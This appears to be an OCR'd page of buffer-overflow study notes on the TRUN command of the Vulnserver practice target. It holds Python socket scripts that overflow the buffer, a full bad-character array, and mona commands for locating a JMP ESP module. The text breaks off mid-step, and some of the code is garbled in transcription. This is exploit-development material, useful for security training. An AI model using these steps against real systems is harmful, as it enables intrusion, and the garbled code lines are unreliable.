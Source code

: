 		shellcode = "A"*2003 + "B"*4
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		try:
			connect=s.connect(('IP', port))
			s.send(('TRUN' /.:/ + shellcode))
		except:
			print("CHECK DEBUGGER!.")
		s.close()

	Finding bad characters:

		import socket
		import sys

		badchars = (
		"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
		"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
		"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
		"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
		"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
		"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
		"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
		"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

		shellcode = "A"*2003+"B"*4 + badchars
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
			connect=s.connect(('IP', port))
			s.send(('TRUN /.:/ + shellcode'))
		except:
			print("CHECK DEBUGGER!.")
		s.close()

		Then follow ESP in dump.

	Find the right module:

		!mona modules
			check for False ASLR+DEP dlls

		/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
			JMP ESP ? (FFE4)

		!mona find -s "\xff\xe4" -m dll.dll

		then from results:
